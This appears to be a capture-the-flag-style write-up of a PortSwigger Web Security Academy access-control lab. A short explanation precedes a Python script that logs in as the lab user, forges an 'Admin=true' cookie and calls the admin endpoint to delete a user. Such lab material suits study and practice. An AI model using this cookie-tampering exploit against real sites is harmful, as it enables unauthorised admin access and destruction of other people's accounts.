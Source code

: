 ```yaml
---
title: User role controlled by request parameter
tags:
  - web-app
  - access
  - control
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter/">
3. User role controlled by request parameter</a>

We're asked to delete the user "carlos", however, the admin panel doesn't allow
you to access it via /admin if the currently logged in user is not an admin.
This is controlled by a cookie provided after successfully logging in. We can
modify this cookie to report Admin=true. Then, we're able to access the /admin
panel and delete the user "carlos".

Solution:

```python
# usage:
# python3 3.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --d carlos

import re
from argparse import ArgumentParser

import requests


def solve(url: str, delete: str) -> None:
    s = requests.Session()
    login_url = f"{url.rstrip('/')}/login"

    # Get the /login page and acquire csrf token
    r = s.get(login_url)
    csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]

    # Login as wiener
    r = s.post(
        login_url,
        data={
            "csrf": csrf,
            "username": "wiener",
            "password": "peter",
        },
    )

    # Set Admin cookie to "true"
    cookies = s.cookies.get_dict()
    cookies["Admin"] = "true"

    # Delete user
    s = requests.Session()
    r = s.get(f"{url.rstrip('/')}/admin/delete?username={delete}", cookies=cookies)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--d", "--delete", dest="delete")
    args = parser.parse_args()
    solve(args.url, args.delete)


if __name__ == "__main__":
    main()
```
